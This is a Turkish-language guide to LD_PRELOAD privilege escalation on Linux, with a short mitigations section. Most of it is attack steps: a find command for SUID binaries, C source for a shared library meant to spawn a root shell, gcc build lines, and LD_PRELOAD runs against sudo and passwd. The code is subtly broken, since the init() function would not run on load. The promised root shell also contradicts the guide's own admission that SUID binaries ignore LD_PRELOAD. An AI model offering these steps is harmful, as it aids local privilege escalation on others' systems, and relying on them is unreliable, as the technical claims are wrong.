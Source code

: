 ### **LD_PRELOAD Privilege Escalation Rehberi**

`LD_PRELOAD` tekniği, genellikle Linux sistemlerinde **Dynamic Linker/Loader** (dinamik bağlantı yükleyicisi) tarafından kullanılan bir ortam değişkenidir. Bu teknik, kötü niyetli bir kullanıcı tarafından suistimal edilerek, yetkili bir süreçte **kütüphaneleri manipüle etmek** için kullanılabilir. Bu rehberde `LD_PRELOAD` ile nasıl hak yükseltme yapılabileceği, teknik detayları ve koruma yöntemleri ele alınmaktadır.

---

### **LD_PRELOAD Nedir?**
`LD_PRELOAD`, bir program çalıştırılmadan önce belirli bir **paylaşımlı kütüphaneyi** yüklemek için kullanılan bir çevresel değişkendir. Normalde dinamik bağlantı yükleyicisi (ld.so veya ld-linux.so) tarafından belirlenen kütüphaneler yüklenir. Ancak, `LD_PRELOAD` ile bu davranışı değiştirebilir ve **özel bir kütüphaneyi** yükleyebilirsiniz.

---

### **LD_PRELOAD ile Hak Yükseltme Nasıl Yapılır?**

#### **1. Gereklilikler**
- **SUID-bit set edilmiş bir binary** (örneğin, `sudo`, `passwd` gibi).
- Ortam değişkenlerinin işleme aktarılmasına izin veren bir süreç.
- Kötü niyetli bir dinamik kütüphane (örneğin, `.so` dosyası).

#### **2. Adımlar**
1. **Hedef Binary'yi Belirleme**
   - SUID biti set edilmiş binary'leri belirlemek için:
     ```bash
     find / -perm -4000 2>/dev/null
     ```
     Örnek: `/usr/bin/sudo`

2. **Kötü Amaçlı Kütüphane Yazma**
   - Zararlı bir `C` kodu yazarak hedef binary'nin davranışını değiştirin:
     ```c
     #include <stdio.h>
     #include <stdlib.h>

     void init() {
         setuid(0); // root yetkisini alır
         setgid(0); // root grubuna geçer
         system("/bin/bash"); // root shell açar
     }
     ```
   - Bu kodu `malicious.c` olarak kaydedin.

3. **Kütüphaneyi Derleme**
   - Zararlı kütüphaneyi `.so` formatında derlemek için:
     ```bash
     gcc -fPIC -shared -o malicious.so malicious.c -nostartfiles
     ```

4. **LD_PRELOAD ile Kütüphaneyi Yükleme**
   - SUID biti set edilmiş bir programı zararlı kütüphaneyle çalıştırın:
     ```bash
     LD_PRELOAD=/path/to/malicious.so /usr/bin/sudo
     ```

5. **Root Yetkisi Alma**
   - Eğer işlem başarılı olursa, bir **root shell** açılır.

---

### **LD_PRELOAD'un Kısıtlamaları**
- **SUID Binary'ler**: Modern sistemlerde, SUID-bit set edilmiş binary'ler `LD_PRELOAD` ortam değişkenini sıklıkla devre dışı bırakır. Bu, `secure execution mode` nedeniyle olur.
- **PAM veya Güvenlik Mekanizmaları**: Ek güvenlik mekanizmaları, kütüphane enjeksiyonunu algılayabilir veya engelleyebilir.

---

### **LD_PRELOAD Zafiyetlerinden Korunma**

1. **Ortamdaki Değişkenleri Kısıtlama**
   - SUID süreçlerde `LD_PRELOAD` gibi ortam değişkenlerinin kullanılmasını önleyin.
   - Örneğin, `secure_getenv()` kullanımı ile zararlı ortam değişkenleri kontrol altına alınabilir.

2. **Kütüphane Yükleme Davranışını İnceleme**
   - Sistemin `ld.so` yapılandırmasını analiz ederek `LD_PRELOAD` kullanımını sınırlandırabilirsiniz.

3. **SUID Programlarının Sayısını Azaltma**
   - Sadece gerekli olan binary'lere SUID biti set edin. Örneğin:
     ```bash
     chmod -s /path/to/binary
     ```

4. **Dynamic Linker Güvenliği**
   - Modern glibc sürümleri `LD_PRELOAD` kullanımını SUID binary'lerle engeller. Bu nedenle, glibc'yi güncel tutmak önemlidir.

5. **SELinux/AppArmor Kullanımı**
   - SELinux veya AppArmor gibi güvenlik modülleri, belirli işlemler için `LD_PRELOAD` yükleme girişimlerini kısıtlayabilir.

---

### **Örnek Senaryo**

#### **Hedef: /usr/bin/passwd**
- Sistem üzerinde SUID biti set edilmiş `/usr/bin/passwd` binary'si mevcut.
- Kötü niyetli kullanıcı, aşağıdaki komutlarla `passwd` binary'sini manipüle eder:

1. **Kötü Kütüphane Oluşturma**:
   ```c
   #include <stdio.h>
   #include <stdlib.h>

   void init() {
       setuid(0);
       system("/bin/bash");
   }
   ```

   ```bash
   gcc -shared -o evil.so -fPIC malicious.c
   ```

2. **Hak Yükseltme**:
   ```bash
   LD_PRELOAD=/path/to/evil.so /usr/bin/passwd
   ```

3. **Sonuç**:
   - Shell root yetkisiyle açılır.

---

### **Sonuç**

`LD_PRELOAD`, Linux ortamında güçlü ve potansiyel olarak tehlikeli bir araçtır. Zararlı bir kütüphane yüklenerek hak yükseltme yapılabilir. Ancak modern sistemlerdeki güvenlik önlemleri bu tür saldırıları büyük ölçüde sınırlandırmıştır. Bu nedenle, sistemlerinizi korumak için yukarıdaki koruma yöntemlerini uygulamak kritik öneme sahiptir.
